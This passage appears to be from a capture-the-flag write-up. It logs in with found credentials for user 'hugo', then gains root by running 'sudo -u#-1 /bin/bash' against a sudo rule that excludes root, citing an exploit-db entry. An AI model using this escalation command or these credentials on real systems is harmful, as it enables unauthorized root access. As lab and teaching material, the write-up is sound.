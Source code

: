 >**user:hugo and password:Password120**

now just change user and take user flag.

<img src="./img/user.png"  width="650"/>

# Root

I execute `sudo -l`
<img src="./img/sudo.png"  width="650"/>
a this point check for 

> (ALL, !root) /bin/bash

and found this [exploit](https://www.exploit-db.com/exploits/47502">https://www.exploit-db.com/exploits/47502).

So I execute `sudo -u#-1 /bin/bash`
<img src="./img/vul.png"  width="650"/>
and got root flag

<img src="./img/root.png"  width="400"/>
